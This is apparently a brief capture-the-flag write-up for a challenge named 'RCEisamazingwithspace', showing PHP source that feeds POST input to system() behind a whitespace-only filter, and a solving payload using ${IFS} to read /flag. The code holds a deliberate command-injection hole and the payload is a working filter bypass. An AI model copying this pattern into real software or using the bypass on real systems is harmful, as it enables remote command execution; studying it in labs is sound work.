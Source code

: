 ### RCEisamazingwithspace

```php
<?php
highlight_file(__FILE__);
$cmd = $_POST['cmd'];
// check if space is present in the command
// use of preg_match to check if space is present in the command
if (preg_match('/\s/', $cmd)) {
    echo 'Space not allowed in command';
    exit;
}

// execute the command
system($cmd);
```

简单的空格过滤

```
cmd=cat${IFS}/flag
```


